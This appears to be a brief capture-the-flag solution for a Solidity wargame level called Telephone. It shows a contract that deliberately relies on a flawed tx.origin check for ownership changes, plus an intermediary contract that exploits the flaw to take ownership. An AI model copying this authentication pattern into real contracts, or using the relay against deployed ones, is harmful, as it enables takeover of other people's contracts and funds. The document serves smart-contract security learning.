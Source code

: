```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract CallTelephone {
  constructor() public {}

  function changeOwner(address _contractAddress) public {
    Telephone telephone = Telephone(_contractAddress);
    telephone.changeOwner(msg.sender);
  }
}
```

tx.origin is the address of the account calling the changeOwner and msg.sender is the address of the CallTelephone contract so ownership is changed to the account initiating the changeOwner call.